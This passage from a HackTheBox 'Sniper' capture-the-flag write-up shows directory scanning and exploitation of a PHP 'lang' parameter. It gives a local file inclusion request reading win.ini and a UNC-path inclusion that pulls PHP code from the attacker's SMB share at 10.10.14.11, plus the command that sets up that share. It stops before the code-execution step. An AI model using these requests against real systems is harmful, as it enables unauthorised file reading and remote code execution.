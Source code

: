 Next, I scanned the site with [rustbuster](https://github.com/phra/rustbuster) and found a blog link I didn't see earlier.

![](/assets/images/htb-writeup-sniper/dirb1.png)

![](/assets/images/htb-writeup-sniper/dirb2.png)

![](/assets/images/htb-writeup-sniper/dirb3.png)

The blog is pretty generic but there is an interesting link to change the language of the page.

![](/assets/images/htb-writeup-sniper/blog1.png)

As shown in the source code, it is possibly a target for an LFI or RFI since it references a PHP file.

![](/assets/images/htb-writeup-sniper/blog2.png)

## Gaining RCE through RFI in the language parameter

To test for local file inclusion I'll try including a Windows file I know exists on the target machine. Luckily for me the `lang` parameter uses the filename with the extension so I can potentially include any file, not just file with php extensions. I am able to get the content of `win.ini` with the following:

`GET /blog/?lang=/windows/win.ini`

![](/assets/images/htb-writeup-sniper/lfi1.png)

Next I try to include a remote file through HTTP with `GET /blog/?lang=http://10.10.14.11/test.php` but I didn't get a callback so I assume remote file includes are disabled or there is some filtering done on the parameter.

Even though remote file includes are disabled, using a UNC path works since it's considered a local path by PHP and I'm able to get a callback through SMB on port 445 with `GET /blog/?lang=//10.10.14.11/test/test.php`

![](/assets/images/htb-writeup-sniper/smb1.png)

I can't get impacket-smbserver working right with this box so instead I'll use the standard Samba server in Linux and create an open share: `net usershare add test /root/htb/sniper/share '' 'Everyone:F' guest_ok=y`

Before trying to get RCE, I'll create an `info.php` file that calls `phpinfo()` so I can check for any disabled functions:

```php
<?php
phpinfo();
?>
```

After calling `phpinfo()` with `GET /blog/?lang=//10.10.14.11/test/info.php` I see that it's running Windows build 17763 and that no functions are disabled.
